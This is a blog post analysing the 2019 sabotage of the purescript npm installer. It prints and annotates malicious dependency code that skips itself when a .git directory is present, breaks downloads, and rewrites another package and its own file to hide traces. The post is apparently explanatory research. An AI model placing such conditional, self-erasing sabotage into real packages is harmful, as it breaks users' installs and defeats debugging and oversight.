 ```yaml
---
layout: post
title: My Favourite Dep Malware PureScript NPM Installer
subtitle: A tale of a really cool piece of malware you probably haven't heard of
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: /assets/img/post5/npm-installer.png
share-img: /assets/img/post5/npm-installer.png
tags: [supplychain, sdlc]
---
```


#### Background


In July 2019, code was added to an upstream of the [`purescript` npm installer](https://www.npmjs.com/package/purescript) which sabotaged the completion of the installation process in a particularly interesting way. The subterfuge was particularly difficult to uncover/debug, taking 5 days for some of the most talented and skilled npmjs devs almost 5 days to unravel. It wouldn't be unfair to say that this event "stumped" (their words, not mine) some of the most talented and well versed engineers in this space.
It's my favourite dep malware, not because it resulted in some epic hack, but because it was so well executed by somebody with an innate understanding of the downstream landscape.

The malware takes advantage of how downstream projects load in the affected code, it uses conditional exploitation logic to hamper debug efforts, and uses just the right level of obfuscation to not immediately look suspect (no super sus looking B64'd blobs here). The malicious software also cleans up after itself.

In this post I hope to step through just how all this took place, so maybe we can all be impressed and together. This particular event got very little coverage, so hopefully you find reading about it notable even though it was a little while ago.

My colleagues really like it when I annotate malware for them, particularly side-by-side, so here's an attempt at posting in that format.

#### Timeline



#### What you're looking at / code intent

The samples below both sabotage the `purescript`  npm installer process to prevent it running successfully under certain conditions.





####   The Details: exploit version 1 `load-from-cwd-or-npm@3.0.2`

You can grab a copy of the dependency off of my repo here:  [`load-from-cwd-or-npm@3.0.2`](https://github.com/5stars217/My_Fav_Malware/tree/main/load-from-cwd-or-npm-3.0.2)

Load up a editor and open `load-from-cwd-or-npm@3.0.2` index.js file.

Check out lines 50 - 83: - I am going to #annotate the below snippet for you, watch out for the comments (#) in the code snippet.
The below code is designed to determine the environment it is running in, and decide what action to take.

 `const tasks = [PassThrough];

    #`tasks` array containing the `Passthrough` Stream Constructor. It'll call `tasks.unshift` twice, so that it winds up at index 2 later.

  if (argLen === 2) {
     if (typeof args[1] !== 'function') {
        throw new TypeError(`Expected a function to compare two package versions, but got ${
          inspectWithKind(args[1])
    }.`);
  }
} else {
    #call  `tasks.unshift 1`
  tasks.unshift(resolveSemverFromNpm);

}`
#call `tasks.unshift 2`. Now the `PassThrough` constructor is at index 2 in the `tasks` array.
tasks.unshift(resolveFromNpm(modulePkgId));

try {
  const results = await Promise.all(tasks);
  let parent = module;`
#Here comes a `do-while` loop that works out how the code is being run,
#by inspecting the `parent` property of each module in the chain.
#Check out the path.endsWith("cli")
  do {   
    parent = parent.parent;

    try {
      const {path} = parent;
#the attacker is deciding whether or not to run the exploit code, by checking on the version of the `purescript` npm installer,
#and if there is a `.git` working directory.  If the code detects a `.git` working directory, it'll skip the exploit.
#This is because `.git` directories aren't present in production environments, so it makes debugging this issue way harder.
# The intent is to  determine if a particular version of an installer is being run,
#and if the code is being run in a environment where it could be easily debugged!
       if (path.endsWith('cli') || [path, dirname(path)].some(dir => existsSync(resolve(dir, '.git')))) {
        parent = 'npm';
        break;
      }
    } catch (_) {}
  } while (parent);
#The purpose of this `parent` variable is just the layup for the exploit code if the above conditions are met to allow for it.
  if (typeof parent !== 'string') {
    return results[2];
  }``
#here's that `[2]` what's happening here is an if statement returning the `PassThrough` constructor
#in the case where the malicious code is being run, this breaks a related function to pull down some
#packages to complete the building of the software:

const request = loadFromCwdOrNpm("request");
request("https://github.com/.../archive.tar.gz").pipe(...);



#### The Details: exploit version 2 `rate-map@1.0.3`

You can grab a copy of the dependency off of my repo here:  [`rate-map@1.0.3`](https://github.com/5stars217/My_Fav_Malware/tree/main/rate-map-1.0.3/package)

Things get a little spicier from this point on. This version of the exploit contains the same `do-while` loop decision gate on exploitation, but it includes some significant upgrades.

`let parent = module;
const {
  existsSync: existsSync,
  readFileSync: readFileSync,
  writeFileSync: writeFileSync
} = require("fs");
#You'll see the same check here if the code is running in a debug or non production environment. But it'll also check for the presence of the `dl-tar` package on local filesystem via obfuscation:
do {
  parent = parent.parent;
  try {
    const { path: path } = parent;
    if (
      path.endsWith("cli") ||
      [path, dirname(path)].some(dir => existsSync(resolve(dir, ".git")))
    ) {
      parent = "npm";
      break;
    }
  } catch (_) {}
} while (parent);
if (typeof parent !== "string") {
  const px = require.resolve(
    # `Buffer.from` obfuscates the check for the `dl-tar` package on local filesystem.
    Buffer.from([100, 108, 45, 116, 97, 114]).toString()
  );
  # store the `index.js` from `dl-tar` in the `px` variable in the next block, which will rewrite the current file to remove the malicious code!
  try {
    writeFileSync(
      __filename,
      readFileSync(__filename, "utf8").replace(
        /let parent[^\0]*module\.exports/u,
        "module.exports"
      )
    );
  } catch (_) {}
#this next block replaces any lines in `dl-tars`'s `index.js` file to match the regex `/\n\s*cb\(null, chunk\` with empty strings, the result is that `dl-tar` users can't install the project.
  try {
    writeFileSync(
      px,
      readFileSync(px, "utf8").replace(/\n\s*cb\(null, chunk\);/u, "")
    );
  } catch (_) {}
}`




#### Final Notes

I intentionally skipped over some background information surrounding the disagreements between authors of `purescript` and `load-from-cwd-or-npm` etc. I just think the techniques used particularly  in `rate-map@1.0.3` are great uses of light (but effective) obfuscation and conditional exploitation.
